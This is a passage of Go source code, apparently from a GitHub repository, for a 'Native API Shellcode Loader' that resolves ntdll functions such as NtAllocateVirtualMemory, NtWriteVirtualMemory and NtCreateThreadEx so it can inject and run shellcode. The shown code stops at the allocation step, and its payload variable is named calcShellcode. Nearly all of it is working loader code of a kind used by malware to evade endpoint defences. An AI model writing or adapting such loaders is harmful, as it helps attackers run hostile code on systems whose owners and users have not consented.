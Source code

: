 ```go
}

// Define STATUS_SUCCESS for NTSTATUS checks
const STATUS_SUCCESS uintptr = 0

func main() {
	fmt.Println("[+] Native API Shellcode Loader")

	// Target Native API functions we need for shellcode injection
	targetFunctions := []string{
		"NtAllocateVirtualMemory",
		"NtWriteVirtualMemory",
		"NtCreateThreadEx",
		"NtWaitForSingleObject",
		"NtFreeVirtualMemory",
		"NtClose", // To close the thread handle
	}

	fmt.Println("[*] Getting handle to ntdll.dll...")
	// Using LoadLibrary for simplicity, GetModuleHandle can also be used
	ntdllHandle, err := windows.LoadLibrary("ntdll.dll")
	if err != nil {
		log.Fatalf("[-] Failed to load ntdll.dll: %v", err)
	}
	// It's good practice to free the library handle when done,
	// but for a simple loader that exits, it's less critical.
	// For long-running applications, ensure FreeLibrary is called.
	// defer windows.FreeLibrary(ntdllHandle) // Deferred if main function could return early before log.Fatal
	fmt.Printf("[+] Got ntdll.dll handle: 0x%X\n", ntdllHandle)

	fmt.Println("[*] Finding function addresses...")
	funcAddrs := make(map[string]uintptr)
	allFound := true
	for _, funcName := range targetFunctions {
		procAddr, errGetProc := windows.GetProcAddress(ntdllHandle, funcName)
		if errGetProc != nil {
			log.Printf("[!] Warning: GetProcAddress failed for '%s': %v", funcName, errGetProc)
			funcAddrs[funcName] = 0
			allFound = false
		} else if procAddr == 0 {
			log.Printf("[!] Warning: GetProcAddress returned NULL for '%s'.", funcName)
			funcAddrs[funcName] = 0
			allFound = false
		} else {
			fmt.Printf("  [+] Found '%s' at address: 0x%X\n", funcName, procAddr)
			funcAddrs[funcName] = procAddr
		}
	}

	if !allFound {
		windows.FreeLibrary(ntdllHandle) // Clean up before fatal exit
		log.Fatalf("[-] Not all required NTAPI function addresses were found. Exiting.")
	}
	fmt.Println("[+] All required function addresses found.")

	// --- 1. Allocate Memory using NtAllocateVirtualMemory ---
	fmt.Println("[*] Allocating memory for shellcode...")
	var baseAddress uintptr // Will receive the base address of the allocated memory
	size := uintptr(len(calcShellcode))

	// NtAllocateVirtualMemory(ProcessHandle, &BaseAddress, ZeroBits, &RegionSize, AllocationType, Protect)
```